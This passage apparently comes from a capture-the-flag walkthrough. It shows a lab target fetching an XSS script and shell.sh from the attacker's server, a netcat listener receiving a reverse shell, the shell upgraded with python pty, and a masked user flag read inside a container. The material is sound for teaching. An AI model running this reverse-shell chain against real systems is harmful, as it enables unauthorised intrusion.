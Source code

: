 ```
10.10.11.112 - - [25/Aug/2021 15:21:04] "GET /xss-6.js HTTP/1.1" 200 -
10.10.11.112 - - [25/Aug/2021 15:21:08] "GET /shell.sh HTTP/1.1" 200 -

```

And then there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 51690
bash: cannot set terminal process group (22): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
bash-5.0$

```

I can upgrade with `python` and `pty`:

```

bash-5.0$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
bash: /root/.bashrc: Permission denied
bash-5.0$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
bash-5.0$ 

```

And there’s `user.txt` in `/home/localstack`:

```

bash-5.0$ cat /home/localstack/user.txt
c877918f************************

```

## Shell as root on localstack

### Enumeration

#### Container FS

I’m currently the localstaack user in what is clearly a container. The container has the IP 172.17.0.2, and there’s a `/.dockerenv` file.

There’s two user home directories, `localstack` and `node`. Both are completely empty:
